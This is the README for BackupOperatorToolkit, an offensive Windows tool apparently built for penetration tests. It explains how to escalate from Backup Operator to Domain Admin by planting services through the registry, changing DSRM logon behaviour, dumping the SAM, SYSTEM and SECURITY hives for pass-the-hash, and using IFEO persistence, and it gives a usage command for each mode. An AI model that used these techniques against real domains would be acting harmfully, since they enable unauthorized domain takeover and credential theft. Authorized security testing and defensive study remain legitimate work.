


# BackupOperatorToolkit

## Usage  

The BackupOperatorToolkit (BOT) has 4 different mode that allows you to escalate from Backup Operator to Domain Admin.  
Use "runas.exe /netonly /user:domain.dk\backupoperator powershell.exe" before running the tool.  

### Service Mode  

The SERVICE mode creates a service on the remote host that will be executed when the host is rebooted.  
The service is created by modyfing the remote registry. This is possible by passing the "REG_OPTION_BACKUP_RESTORE" value to RegOpenKeyExA and RegSetValueExA.  
It is not possible to have the service executed immediately as the service control manager database "SERVICES_ACTIVE_DATABASE" is loaded into memory at boot and can only be modified with local administrator privileges, which the Backup Operator does not have.  

```powershell
.\BackupOperatorToolkit.exe SERVICE \\PATH\To\Service.exe \\TARGET.DOMAIN.DK SERVICENAME DISPLAYNAME DESCRIPTION
```  

  
  
### DSRM Mode  

The DSRM mode will set the DsrmAdminLogonBehavior registry key found in "HKLM\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" to either 0, 1, or 2.  
Setting the value to 0 will only allow the DSRM account to be used when in recovery mode.  
Setting the value to 1 will allow the DSRM account to be used when the Directory Services service is stopped and the NTDS is unlocked.  
Setting the value to 2 will allow the DSRM account to be used with network authentication such as WinRM.  
If the DUMP mode has been used and the DSRM account has been cracked offline, set the value to 2 and log into the Domain Controller with the DSRM account which will be local administrator.  

```powershell
.\BackupOperatorToolkit.exe DSRM \\TARGET.DOMAIN.DK 0||1||2
```  

  

### DUMP Mode  

The DUMP mode will dump the SAM, SYSTEM, and SECURITY hives to a local path on the remote host or upload the files to a network share.  
Once the hives have been dumped you could PtH with the Domain Controller hash, crack DSRM and enable network auth, or possibly authenticate with another account found in the dumps. Accounts from other forests may be stored in these files, I'm not sure why but this has been observed on engagements with management forests.
This mode is inspired by the [BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA) project.  

```powershell
.\BackupOperatorToolkit.exe DUMP \\PATH\To\Dump \\TARGET.DOMAIN.DK
```  

  
  
### IFEO Mode  

The IFEO (Image File Execution Options) will enable you to run an application when a specifc process is terminated.  
This could grant a shell before the SERVICE mode will in case the target host is heavily utilized and rarely rebooted.  
The executable will be running as a child to the WerFault.exe process.  

```powershell
.\BackupOperatorToolkit.exe IFEO notepad.exe \\Path\To\pwn.exe \\TARGET.DOMAIN.DK
```  

  
  
  
  
